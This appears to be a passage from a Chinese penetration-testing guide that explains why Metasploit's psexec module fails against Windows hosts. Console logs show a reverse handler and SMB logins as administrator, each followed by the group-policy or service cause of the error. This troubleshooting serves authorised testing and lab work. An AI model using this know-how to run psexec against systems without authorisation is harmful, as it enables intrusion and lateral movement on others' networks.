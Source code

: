 ### (9) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_PASSWORD\_MUST\_CHANGE

报错原因：用户下次登录时须更改密码，组策略 “密码最长使用期限” 默认为 42 天。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_LOCKED\_OUT (Command=115 WordCount=0)
```

### (10) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_LOCKED\_OUT

报错原因：账户已被锁定，组策略 “账户锁定策略（帐户锁定阈值）” 默认为 0 永不锁定。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: Connection reset by peer
```

### (11) Rex::Proto::SMB::Exceptions::LoginError Login Failed: Connection reset by peer

报错原因：目标主机上的 Server 服务处于停止状态，服务名称为：LanmanServer。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_RESTRICTION (Command=115 WordCount=0)
```

### (12) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_RESTRICTION

报错原因：目标主机上的 Administrator 密码为 “空”，而 psexec 模块中的 smbpass 选项是不能为 “空” 的，否则就会出现以下报错。组策略 “密码必须符合复杂性要求” 已禁用。
